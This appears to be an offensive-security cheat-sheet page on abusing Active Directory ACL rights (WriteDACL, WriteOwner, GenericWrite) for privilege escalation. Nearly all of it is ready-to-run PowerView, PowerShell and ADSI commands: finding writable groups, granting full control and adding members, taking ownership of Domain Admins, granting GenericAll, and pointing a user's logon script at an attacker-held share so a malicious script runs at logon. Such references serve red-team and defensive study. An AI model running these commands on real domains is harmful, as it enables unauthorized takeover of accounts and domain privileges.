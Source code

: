 # Write Property

### <mark style="color:orange;">WriteDACL</mark>

Find domain groups that current user has `WriteDACL` access right to:

```
PowerView3 > Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} | ? {$_.ActiveDirectoryRights -like "*WriteDacl*"}
```

The attacker can take the full control of discovered groups and then add a users to them:

```
PowerView3 > Add-DomainObjectAcl -TargetIdentity "IT Desk" -PrincipalIdentity snovvcrash -Domain tricky.com -Rights All -Verbose
PowerView3 > Add-DomainGroupMember -Identity "IT Desk" -Members snovvcrash -Verbose
```

#### Group membership will take its sweet time to be updated within target user's TGT. To [force](http://woshub.com/how-to-refresh-ad-groups-membership-without-user-logoff/) the update one may purge existing tickets and request new TGT:

```
Cmd > klist purgeCmd > gpupdate /forceCmd > dir \\dc1.megacorp.local\c$
```

### <mark style="color:orange;">WriteOwner on Group</mark>

before the attack the owner of Domain Admins is Domain Admins. After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

### <mark style="color:orange;">GenericWrite on User</mark>

```
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

the user's ~~`delegate`~~ logon script field gets updated in the AD.

### <mark style="color:orange;">WriteDACL + WriteOwner</mark>

If you are the owner of a group And you have a `WriteDACL` on that AD object, you can give yourself `GenericAll` privileges with a sprinkle of ADSI sorcery:

```
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object.

This effectively means that you can now add new users to the group.

Interesting to note that I could not abuse these privileges by using Active Directory module and `Set-Acl` / `Get-Acl` cmdlets:

```
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```
